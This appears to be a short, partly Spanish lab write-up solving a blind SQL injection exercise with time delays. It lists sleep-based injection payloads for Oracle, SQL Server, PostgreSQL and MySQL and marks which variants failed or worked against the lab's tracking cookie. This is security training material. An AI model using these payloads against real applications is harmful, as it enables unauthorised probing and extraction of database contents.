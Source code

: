 ![](assets/2022-07-08-14-48-11.png)

awh1rah1ldpr6tzk32rt


![](assets/2022-07-08-14-52-13.png)

## Lab: Blind SQL injection with time delays

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Este ejercicio solo nos pide un delay de 10 segundos y nada más...

Podríamos buscar antes el tipo de base de datos pero es más rápido directamente.

```bash
Oracle	      dbms_pipe.receive_message(('a'),10)

Microsoft	   WAITFOR DELAY '0:0:10'

PostgreSQL	   SELECT pg_sleep(10)

MySQL	         SELECT SLEEP(10)
```
Probamos con el primero
```bash
[x] oracle       ' and dbms_pipe.receive_message(('a'),10)--
[x] Microsoft    ' and WAITFOR DELAY '0:0:10'--
[x] PostgreSQL	  ' and select pg_sleep(10)--
[x]MySQL	        ' and select SLEEP(10)--

[x] oracle       ' || dbms_pipe.receive_message(('a'),10)--
[x] Microsoft    ' || WAITFOR DELAY '0:0:10'--
[v] PostgreSQL	  ' || pg_sleep(10))--
[]MySQL	        ' || SLEEP(10)--
```